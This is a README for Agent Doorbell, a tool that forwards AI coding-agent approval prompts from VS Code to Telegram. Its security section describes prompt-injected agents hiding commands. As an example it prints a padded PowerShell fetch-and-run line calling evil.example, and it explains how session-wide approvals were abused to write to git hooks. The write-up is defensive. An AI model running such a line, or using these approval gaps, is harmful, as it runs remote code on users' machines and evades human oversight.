

<div align="center">

# 🔔 Agent Doorbell

**Your VS Code coding agents ring your phone when they need you.**
Approve commands, answer questions, and send prompts from Telegram, without going back to the laptop.


[Why](#the-problem-it-solves) · [Features](#features) · [How it works](#how-it-works) · [Quick start](#quick-start) · [Using it](#using-it-from-your-phone) · [Security](#security) · [Reliability](#reliability) · [Limitations](#limitations) · [FAQ](#faq)

</div>

---

## The problem it solves

AI coding agents (like GitHub Copilot's agent mode in VS Code) work on their own, but they regularly stop for a **human in the loop**:

| The agent stops to… | Example |
|---|---|
| 🔐 ask permission | *"Run `npm install`?"* · *"Edit `.vscode/settings.json`?"* · *"Fetch this URL?"* |
| ❓ ask a question | *"Postgres or MySQL?"* |
| ✅ report it's done | *"Tests pass. What next?"* |

These prompts only appear in VS Code. **If you're away from the laptop, the agent just waits**: a five-minute task can sit unfinished for hours because nobody clicked *Allow*. Until now, your options were:

- 🪑 **Stay at your desk** and babysit the agent, or
- ⚠️ **Turn on "approve everything"**, which lets the agent run any command unattended. That's risky.

**Agent Doorbell is the third option.** The agent keeps asking you, but the question comes to your phone too. Each message says what you asked for, what the agent is doing, and exactly what it wants to run. You decide from wherever you are, and VS Code carries on.

<table>
<tr>
<td width="55%" valign="top">

**What arrives on your phone**

> **Run powershell command?**
> _billing-api · #12_
>
> Run the test suite
> ```
> npm test -- --runInBand
> ```
> ▸ _You asked: Make the test suite stable in CI_ · _Agent: Running the tests serially to find the flaky one._ (collapsed, tap to expand)
>
> `Allow` `Allow in this session`
> `Skip` `Skip & stop agent`

</td>
<td width="45%" valign="top">

**What happens next**

1. VS Code shows its usual prompt right away.
2. Still unanswered after **60 s**? Your phone rings too.
3. Answer **wherever you are**: phone or laptop.
4. The first answer wins, and the other side updates itself:<br>`💻 Answered in VS Code` or `✅ Allowed once`.

</td>
</tr>
</table>

## Features

| | Feature | Details |
|---|---|---|
| 🔐 | **Approvals** | Shell commands, sensitive file edits, web fetches, and MCP tools, with the full command or diff. Too long for a message? The complete text comes as a file |
| 🧭 | **Context included** | Every message shows the project folder, what you asked for, and what the agent said just before asking |
| ❓ | **Questions** | The agent's question, with a button for each option, or type a free-text answer |
| ✅ | **Turn finished** | The agent's last reply, if you haven't replied in VS Code within 5 minutes. Type a follow-up and it keeps working |
| 🗂️ | **Prompt any session** | `/sessions` lists your VS Code sessions. Pick one and send it prompts from the phone |
| ⏱️ | **Laptop first** | VS Code always asks first. The phone only rings if nobody answered within a minute |
| 🤝 | **First answer wins** | Phone and laptop stay in sync. Answer on either |
| 🔕 | **Quiet when you want** | `/snooze 2h`, `/pause`, or daily `quiet_hours`. Anything still waiting arrives when they end |
| 🤖 | **Claude and Codex too** | Copilot agents fully; the Claude and Codex agents through their own hooks (see [Limitations](#limitations)) |
| 🛡️ | **Safe by design** | Checked buttons, each Allow tied to one exact prompt, signed local traffic, nothing hidden silently, fails safe (see [Security](#security)) |
| 🔁 | **Always on** | Restarts itself after a crash, starts at login, and keeps the computer from sleeping on inactivity |
| 💸 | **Free** | Telegram bots cost nothing. No public URL, ngrok, or webhook needed |

## How it works



| Part | What it does |
|---|---|
| `hook.py` | The hook for Copilot (`~/.copilot/hooks/agent-doorbell.json`), and for Claude (`~/.claude/settings.json`) and Codex (`~/.codex/hooks.json`) when they're installed. Hands events to the bridge |
| `bridge.py` | The local service (127.0.0.1 only, signed requests). Decides what goes to the phone, talks to Telegram, and keeps both sides in sync |
| Helper extension | A tiny VS Code extension (`vscode-extension/`) that applies phone answers to prompts already showing in VS Code |
| Supervisor + autostart | Keeps the bridge running: restarts it within seconds if it crashes, and starts it at login (scheduled task on Windows, launchd on macOS, systemd user service on Linux) |

## Quick start

> **You need:** Windows 10/11, macOS, or Linux · Python 3.10+ · VS Code with GitHub Copilot (agent sessions) · Telegram on your phone

**1. Get the code**
```powershell
git clone https://github.com/PrashantAHD/Agent-Doorbell.git
cd Agent-Doorbell
```

**2. Create your bot** (1 minute). In Telegram, open **@BotFather**, send `/newbot`, choose a name (e.g. *Agent Doorbell*) and a username ending in `bot`, and copy the token.

**3. Pair it with your phone**
```powershell
python bridge.py setup-telegram       # python3 on macOS/Linux
```
Paste the token (input is hidden), open the link it prints on your phone, and tap **START**.

**4. Install and start**

Windows:
```powershell
powershell -ExecutionPolicy Bypass -File .\install.ps1
python bridge.py test-send        # you should get a message on Telegram
```
macOS / Linux:
```bash
./install.sh
python3 bridge.py test-send
```
This writes the hooks, installs the helper extension, sets up autostart (the **Agent Doorbell** scheduled task on Windows, a launch agent on macOS, a systemd user service on Linux), and starts everything. On macOS/Linux the `code` command must be on your PATH (VS Code: *Shell Command: Install 'code' command in PATH*).

**5. Start a new agent session in VS Code.** Hooks load when a session starts, so sessions that were already open aren't covered. After updating Agent Doorbell, reload open VS Code windows (*Developer: Reload Window*) so they pick up the new helper extension.

> [!TIP]
> To remove everything, run `powershell -ExecutionPolicy Bypass -File .\uninstall.ps1` (or `./uninstall.sh`). Your `config.json` is kept; delete the folder to remove it too.

> [!NOTE]
> **Codex:** new hooks run only after you trust them. Open Codex, run `/hooks`, and trust the two Agent Doorbell hooks (again after each reinstall, since that changes them).

## Using it from your phone

| On your phone | What it does |
|---|---|
| Tap **Allow** / **Allow in this session** / **Skip** / **Skip & stop agent** | Answers an approval (Skip = deny). "In this session" covers only that exact command, file, site, or tool |
| Type any message on an approval | Denies it and passes your message to the agent as feedback |
| Tap an option, or type an answer | Answers an agent's question |
| Type a message on a "turn finished" card | Sends it as your next prompt. Tap **👍 End turn** to leave it |
| `/sessions` → tap a session | Picks a VS Code session to prompt. Plain messages then go to it |
| `/prompt <text>` | Sends a prompt to the picked session, even while other requests are open |
| `/session` · `/status` | Shows the picked session · lists open requests and whether notifications are on |
| `/snooze 2h` | Silences the phone for a while (`30m`, `2h`, `1d`; default 1 hour). Anything still waiting arrives afterwards |
| `/pause` · `/resume` | Stops or starts phone notifications (VS Code keeps working as usual). `/resume` also ends a snooze |
| 📎 file + **Allow** | A command or diff too long for a message comes as a file first. Open it and read it before tapping Allow |

When several requests are open, type the request number first, for example `#4 1` (allow #4 once).

<details>
<summary><b>⚙️ Settings (<code>config.json</code>)</b></summary>

<br>

Re-run the installer (`install.ps1` or `install.sh`) after changing settings.

| Key | Default | Meaning |
|---|---|---|
| `push_after_seconds` | `60` | How long a prompt or question waits in VS Code before your phone rings |
| `turn_end_after_seconds` | `300` | How long a finished turn waits for your reply in VS Code before the "turn finished" card goes to the phone. Turns you started from the phone are sent right away |
| `quiet_hours` | `""` | Daily window with no phone notifications, in local time, e.g. `"23:00-07:00"`. Requests still waiting when it ends are sent then |
| `away_after_seconds` | `60` | Claude/Codex only: no keyboard or mouse input for this long counts as "away", and their requests go to the phone |
| `max_wait_hours` | `168` | How long a phone request stays open. It closes as soon as you answer anywhere |
| `keep_awake` | `true` | Stops the computer from sleeping because of inactivity while the bridge runs. The screen still turns off and locks |
| `helper_idle_minutes` | `10` | Closes the helper VS Code window the bridge opened after this long without work. It reopens when needed |
| `notify_turn_end` | `true` | Send "turn finished" cards |
| `passthrough_tools` | list | Tools that never ring the phone |
| `sensitive_write_globs` | list | Files that always need approval, even inside the workspace |
| `port` | `47615` | Local port of the bridge (127.0.0.1 only) |

The bot token can also come from the `TELEGRAM_BOT_TOKEN` environment variable.

**Advanced / legacy modes:** `turn_hold_minutes` and `questions_via_chat` (experimental: hold finished turns in the hook), `hold_in_hook` (old behaviour: VS Code waits for the phone), and `laptop_popup` with `escalate_after_seconds` (a laptop popup first). All are off by default.

</details>

## Security

Agent Doorbell can approve commands on your machine, so it's built to be hard to misuse. In short: **only you, from your own Telegram chat, can answer, and only for the exact request you were shown.** Nothing is ever approved automatically, and if anything goes wrong it falls back to VS Code's normal prompt.

### How you're protected

| Risk | What stops it |
|---|---|
| Someone else messages your bot | Only your paired chat is accepted. Pairing needs a one-time code that only you see, from a private chat. Messages and button taps from any other chat are ignored |
| Fake, forged, or edited buttons | Each message's buttons carry a random code tied to that one message. A tap only counts if the code, the message, and the action all match what the bridge sent. Button data is never treated as typed text |
| A dangerous command hidden in a long one | The start **and** end are always shown, with "⚠️ N characters NOT shown" in between. The complete text arrives as a file before Allow is offered; if the file can't be sent, it can only be denied |
| Fake text injected into the message | Backticks and the bridge's own layout markers are neutralised in the agent's text and commands, so they can't break out of the code block or rearrange the message |
| "Allow in this session" approving more than you saw | It covers only that exact command, file, website, or MCP tool. It's never offered for sensitive files (`.git`, `.vscode`, dotfiles, `package.json`, …), files outside the workspace, or patches that touch several files or move a file |
| A phone Allow landing on a different prompt | Right before pressing, VS Code checks that the exact prompt you saw is still waiting, unchanged, and the only one in that session. Otherwise nothing is pressed |
| Another program on your computer pretending to be the bridge | The secret token is never sent. Every request is signed (HMAC with a timestamp and a one-time nonce, so it can't be replayed), and the hook and VS Code only act on answers the bridge signs back |
| The bridge being used to run arbitrary VS Code commands | The helper extension only runs three commands: Accept, Skip, and send a chat message |
| Sandbox escapes approved remotely | Requests to bypass the terminal sandbox are never sent to the phone; they must be confirmed in VS Code |
| Network snooping | The bridge listens on `127.0.0.1` only. Telegram is reached over HTTPS, verified against your system's certificate store |
| The bridge crashing or stopping | Fails safe: VS Code just shows its normal prompts. Nothing is approved by default, and answering on the laptop always works |

### What it can't protect against

Be aware of these limits:

- **Your Telegram account and bot token are the keys.** Anyone who can use your Telegram chat (an unlocked phone, a logged-in Telegram Desktop or Web session) can approve requests. Someone with the bot token can't fake buttons, but can change the text of a message the bridge already sent. Use a phone lock, and Telegram's two-step verification.
- **Telegram sees what's sent to your phone:** the command, diff, question, the agent's last reply, and a short summary of your prompt. Don't use it for work whose content mustn't leave your machine.
- **The agent's explanation can be wrong or misleading.** An agent misled by a malicious file or web page can describe a command as harmless. Approve based on the command, diff, or file shown, not the "Agent:" line.
- **Your own account is trusted.** Malware running as you, or an administrator, can read `config.json` (the bot token and signing key) and act as the bridge. Agent Doorbell protects against other users and other programs on the port, not against your own account being compromised.
- **Logs contain request text.** `bridge.log` holds commands and agent replies. It's excluded from git; keep it private.

### Vulnerabilities fixed

A security review (Oct 2026) found three ways you could be tricked into approving something you didn't intend, and two lower-risk issues. All five are fixed and covered by tests.

<details open>
<summary><b>🟠 High: Fake or edited buttons in Telegram</b></summary>

<br>

**The situation:** Anyone who gets your bot token can post messages through your bot and edit its messages. They could edit a real approval so a dangerous command looks harmless, send a fake message with a **Skip** button that actually means "allow", or add a button whose hidden data is a prompt such as "download and run …".

**How you're protected:**
- Every message's buttons carry a random code that's tied to that one message when it's sent.
- A tap counts only if it carries a code the bridge issued, comes from that same message, and is an action that message offered. Anything else is ignored and logged.
- A button tap is never treated as typed text, so a button can't become a prompt.

**What it can't prevent:** someone who has the token can still edit the text of a real message. Keep the token secret (see [Your part](#your-part)).

</details>

<details>
<summary><b>🟡 Medium: Dangerous commands hidden by cutting them short</b></summary>

<br>

**The situation:** The phone used to show only the first 900 characters of a command and didn't say anything was missing. An agent misled by a malicious file or web page could pad a command and put `…; iwr https://evil.example/x.ps1 | iex` at the end, so you'd approve something you never saw. Backticks in a command could also break the message layout and display fake text.

**How you're protected:**
- Up to 2,500 characters are shown. Anything longer shows both its **start and end**, with **"⚠️ N characters NOT shown"** in between.
- On Telegram, the **complete, unmodified text** is sent as a file just before the request, and only then can it be allowed. If the file can't be sent, the request can only be **denied** from the phone.
- Backticks are neutralised, so a command can't break out of its code block.

</details>

<details>
<summary><b>🟡 Medium: "Allow for session" approving far more than you saw</b></summary>

<br>

**The situation:** Approving one harmless command (say `git status`) "for the session" used to approve **every** shell command afterwards, and skipped the extra check on sensitive files. A misled agent could ask for something harmless once, then run anything, including writes to `.git/hooks` or `.vscode/tasks.json` that run code later.

**How you're protected:**
- **Allow in this session** covers only that exact command, that exact file, that one website, or that one MCP tool.
- It isn't offered at all for sensitive files (dotfiles, `.git`, `.vscode`, `package.json`, …) or for files outside the workspace. Those ask every time.

</details>

<details>
<summary><b>⚪ Low: A phone Allow landing on a different prompt</b></summary>

<br>

**The situation:** A phone answer is applied by pressing VS Code's Accept button for the session. If a second prompt appeared in that session around the same time (for example, parallel tool calls), the press could have answered that one instead of the one you read.

**How you're protected:**
- The bridge remembers exactly which prompt (and its content) the phone message was for.
- Right before VS Code presses anything, the helper extension asks the bridge to confirm that this exact prompt is still waiting, unchanged, and is the **only** one waiting in that session. Otherwise nothing is pressed and the phone tells you to answer on the laptop.
- Once the prompt is answered, no further presses for that answer go through.

</details>

<details>
<summary><b>⚪ Low: Another program pretending to be the bridge</b></summary>

<br>

**The situation:** Hooks and the helper extension used to send the bridge's secret token with every request. If another program (for example, another user on the same computer) took the bridge's port while it was stopped, it could collect the token and the agents' requests, and even answer "allow".

**How you're protected:**
- The token is never sent. Each request is signed with it (an HMAC over the request, with a timestamp and a one-time nonce, so it can't be replayed).
- The hook first checks that whatever is listening can prove it knows the token, before sending anything about the request.
- Every answer must be signed by the bridge. The hook ignores unsigned answers (the agent shows its normal prompt), and the helper extension ignores unsigned jobs.
- The supervisor and installer use the same check, so an impostor isn't mistaken for a healthy bridge. If the port is taken, Telegram tells you.

</details>

### Your part

- **Keep the bot token secret.** Never paste it into a chat, email, or file other than `config.json`. If it may have leaked:
  1. Send `/revoke` to **@BotFather** and pick your bot. The old token stops working at once.
  2. Run the uninstaller (`uninstall.ps1` or `./uninstall.sh`), then `python bridge.py setup-telegram` with the new token.
  3. Run the installer again (`install.ps1` or `./install.sh`).
- **Lock your phone, and turn on Telegram's two-step verification** (Settings → Privacy and Security → Two-Step Verification). Remove Telegram Desktop/Web sessions you don't use (Settings → Devices).
- **Read the whole message before tapping Allow**, especially the end of long commands, and the attached file when there is one.
- **Use `/pause` or `/snooze`** when you don't want to answer from the phone. Everything then stays on the laptop.

> [!NOTE]
> **Keep `config.json` private.** It holds the bot token and the bridge's signing key. On Windows it's readable only by your account and administrators; the macOS/Linux installer sets it to `600`.

## Reliability

| What could go wrong | What happens |
|---|---|
| The bridge crashes or hangs | The supervisor restarts it, usually within **10 s**, and Telegram tells you: *"🔁 Agent Doorbell stopped unexpectedly and was restarted."* |
| The supervisor itself is killed | Windows: the **Agent Doorbell** scheduled task starts it again within 5 minutes. macOS/Linux: launchd or systemd restarts it |
| You log off or reboot | Autostart starts everything at login |
| The computer idles | `keep_awake` stops inactivity sleep while the bridge runs (`caffeinate` on macOS, `systemd-inhibit` on Linux). The screen still turns off and locks |
| Wi-Fi drops | Telegram polling retries until the connection is back |
| The bridge isn't running at all | VS Code shows its normal prompts. Nothing waits for the phone |

> [!IMPORTANT]
> Closing the lid or choosing **Sleep** still sleeps the laptop, and then nothing can reach it. To keep it running with the lid closed, set *Control Panel → Power Options → Choose what closing the lid does → Plugged in: Do nothing*.

If your company blocks scheduled tasks, `install.ps1` falls back to a Startup shortcut. You keep crash restarts, but not the 5-minute check. On Linux without a systemd user session, `install.sh` uses an autostart entry instead, with the same trade-off.

## Limitations

- **Claude and Codex agents** are covered through their own hooks, which work differently from Copilot's:
  - Their requests go to the phone only while you're **away** (no keyboard or mouse input for `away_after_seconds`). While the hook waits for the phone, the agent waits too; coming back to the laptop hands the request to the agent's normal prompt.
  - Approvals and "turn finished" are supported. Questions, `/sessions` prompts, and answering a prompt that's already showing on screen are Copilot-only.
  - On Linux, idle time needs `xprintidle` (X11) or GNOME. Without either, these requests stay on the laptop.
  - Codex runs new or changed hooks only after you trust them with `/hooks`.
- **macOS and Linux** need the `code` command on PATH for the helper window. The helper window opens normally there (not minimized).
- **Answering prompts already showing in VS Code** goes through the helper extension, because the Agents window doesn't load extra extensions. When needed, the bridge opens a helper VS Code window (the first answer takes about 15 s longer). It closes itself after 10 idle minutes, or 2 minutes after the bridge stops. Windows you opened yourself, or windows with files open, are never closed.
- **Questions answered from the phone:** VS Code's question form is cancelled and your answer arrives as your next message. The form shows as cancelled; the agent gets your answer.
- **`/sessions` prompts** are best-effort, especially for sessions that have been idle a long time. You get a ⚠️ message if one doesn't arrive.
- **Two sessions in the same folder, or two prompts in one session, waiting at once:** the bridge won't guess which one you mean, so answer on the laptop.
- **Long commands** (over 2,500 characters) come as a file. If it can't be sent, they can only be denied from the phone.
- **Built on VS Code internals:** it reads session logs and uses internal VS Code commands that aren't a public API, so a VS Code update could break parts of it.

## FAQ

<details>
<summary><b>Can I trust the "💬 Agent" line in a message?</b></summary>

<br>

Treat it as the agent's explanation, not as proof. An agent misled by a malicious file or web page could describe a command as harmless. The command, diff, or arguments shown below it are what actually runs. Always read those before tapping **Allow**.

</details>

<details>
<summary><b>Does my code or chat go through a third-party server?</b></summary>

<br>

Only the messages sent to your phone go through Telegram: the command, diff, question, the agent's last reply, and a short summary of your prompt. Everything else stays on your laptop. Don't use it for sessions whose content mustn't leave your machine.

</details>

<details>
<summary><b>Will my phone buzz for every little thing?</b></summary>

<br>

No. Anything VS Code approves on its own (reads, normal workspace edits, tools you allowed for the session) never reaches the phone. Prompts and questions only ring if nobody answered within 60 seconds, and "turn finished" cards only after 5 minutes without a reply. Use `/snooze 2h` for a break, `quiet_hours` for every night, or `/pause` for full silence.

</details>

<details>
<summary><b>What if I answer on both phone and laptop?</b></summary>

<br>

The first answer wins. The other side updates itself (`💻 Answered in VS Code` on the phone, or the VS Code prompt disappears), and the later answer is ignored.

</details>

<details>
<summary><b>It works behind my company's proxy / TLS inspection?</b></summary>

<br>

Yes. HTTPS is verified with the system certificate store via `truststore`, so a corporate root certificate that your OS trusts also works here.

</details>

<details>
<summary><b>Where are the logs?</b></summary>

<br>

`bridge.log` (the bridge) and `supervisor.log` (restarts) in the project folder. They can contain command text and agent replies, so they're excluded from git.

</details>

## Project layout

```
Agent-Doorbell/
├── bridge.py            # the service: routing, Telegram, supervisor, local API
├── hook.py              # Copilot hook entry point (fails safe)
├── popup.py             # optional laptop popup (off by default)
├── vscode-extension/    # helper extension that applies phone answers in VS Code
├── build_vsix.py        # packages the helper extension
├── install.ps1          # Windows: hooks + extension + scheduled task + start
├── uninstall.ps1        # Windows: removes all of the above
├── install.sh           # macOS/Linux: hooks + extension + launchd/systemd + start
├── uninstall.sh         # macOS/Linux: removes all of the above
├── requirements.txt     # truststore
├── LICENSE              # MIT
├── AGENTS.md            # guide for coding agents working on this repo
├── .github/agents/      # cost-saving agents: cheap main agent, Sonnet developer, Opus security reviewer
└── tests/               # python -m unittest discover -s tests
```

## License

[MIT](LICENSE) © 2026 Prashant Kumar

---

<div align="center">
<sub>Agent Doorbell is an independent project and isn't affiliated with Microsoft, GitHub, or Telegram. "VS Code", "GitHub Copilot", and "Telegram" are trademarks of their owners.</sub>
</div>
